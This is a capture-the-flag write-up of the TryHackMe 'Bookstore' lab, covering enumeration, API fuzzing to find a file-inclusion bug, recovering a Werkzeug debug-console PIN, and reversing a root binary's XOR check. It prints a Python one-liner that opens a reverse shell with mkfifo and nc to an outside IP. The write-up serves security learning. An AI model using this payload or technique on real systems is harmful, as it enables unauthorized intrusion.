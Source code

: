 # Bookstore TryHackMe Writeup
## Level: `Medium` | OS: `Linux`

![logo](logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](1.png)

## Enumeration
We list two web services on port 80 of this website:

![](2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](8.png)

And at port 5000:

![](3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](4.png)

We test the API and see that it works correctly from Burp.

![](5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](9.png)

#### API V1

![](10.png)

If we access from the browser, we see that we can embed files (LFI).

![](11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](13.png)

We use the PIN and now we have access to the interactive console.

![](14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](15.png)

### Reverse shell

![](16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](22.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)

